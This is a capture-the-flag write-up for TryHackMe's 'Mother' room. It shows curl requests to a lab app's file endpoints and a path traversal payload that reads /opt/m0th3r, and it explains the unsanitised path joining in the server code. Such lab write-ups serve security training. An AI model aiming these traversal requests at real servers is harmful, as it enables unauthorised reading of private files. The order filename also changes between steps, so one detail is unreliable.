# Mother

A writeup for the room [Mother](https://tryhackme.com/r/room/codeanalysis) on TryHackMe.

> Exploit flaws found in Mother's code to reveal its secrets.

<Image src={require("./logo.webp").default} height="256" />

### What is the number of the emergency command override?

It is written in the description of the room.

### What is the special order number?

If we go to the home page, we can see different boxes that explain a little what the application can do. We are logged in as "Crew Member" without any permissions.

<Image src={require("./1-homepage.webp").default} />

<Image src={require("./2-classified.webp").default} />

We can see that there is a tool called Alien Loader that allows to upload yaml files to the server. It is the same tool described in the room description.

Since Alien Loader allows us to upload yaml files, we can try to use the available endpoint for yaml files to download 100375.yaml

<Image src={require("./3-yaml.webp").default} />

Run this command to make the request (remember to change the IP):

```bash
curl -X POST -d '{"file_path":"100375.yaml"}' -H "Content-Type: application/json" MACHINE_IP/yaml
```

The response will contain the special order number.

```
FOR SCIENCE OFFICER EYES ONLY  special SECRETS:  REROUTING TO: api/nostromo ORDER: 0rd3rXYZ.txt [****]
UNABLE TO CLARIFY. NO FURTHER ENHANCEMENT.
```

Now we know the number of the special order.

Be careful with the paths, the yaml endpoint is directly under root, while the Nostromo ones are under /api.

```
POST /yaml
POST /api/nostromo
POST /api/nostromo/mother

{
  "file_path": "path/to/file"
}
```

### What is the hidden flag in the Nostromo route?

The flag can be obtained by downloading the special order file from the nostromo endpoint.

<Image src={require("./4-nostromo.webp").default} />

The request:

```bash
curl -X POST -d '{"file_path":"0rd3r937.txt"}' -H "Content-Type: application/json" MACHINE_IP/api/nostromo
```

The result:

```
Mother
FOR SCIENCE OFFICER EYES ONLY
SPECIAL ORDER 937 [............

PRIORITIY 1 ****** ENSURE RETURN OF ORGANISM FOR ANALYSIS****]

ALL OTHER CONSIDERATIONS SECONDARY

CREW EXPENDABLE

Flag{--REDACTED--}
```

### What is the name of the Science Officer with permissions?

After calling the previous endpoints, we can see that the username at the top of the homepage has changed.

<Image src={require("./5-ash.webp").default} />

### What are the contents of the classified "Flag" box?

Now that we are logged in as Ash when we go to the flag section we can finally see the contents of the classified box.

### Where is Mother's secret?

In the description of the room, it is indicate that the goal is to obtain the file secret.txt in the mother folder.

Now that we have activated the two other endpoints for authentication, we can try to call the mother one.

```bash
curl -X POST -d '{"file_path":"../../../../../opt/m0th3r"}' -H "Content-Type: application/json" MACHINE_IP/api/nostromo/mother
```

This will return the contents of the secret.txt file.

### What is Mother's secret?

All endpoints implemented in the routes file, including the mother endpoint, are vulnerable to path traversal.

The user can insert any value and it will be concatenated to the base path without any sanitization.

```js
let file_path = req.body.file_path
const filePath = `./public/${file_path}`
```

So, if we send something like ../../../../../opt/m0th3r the value of filePath will be:

```
./public/../../../../../opt/m0th3r -> /opt/m0th3r
```

Send this request for the final flag:

```bash
curl -X POST -d '{"file_path":"../../../../../opt/m0th3r"}' -H "Content-Type: application/json" MACHINE_IP/api/nostromo/mother
```
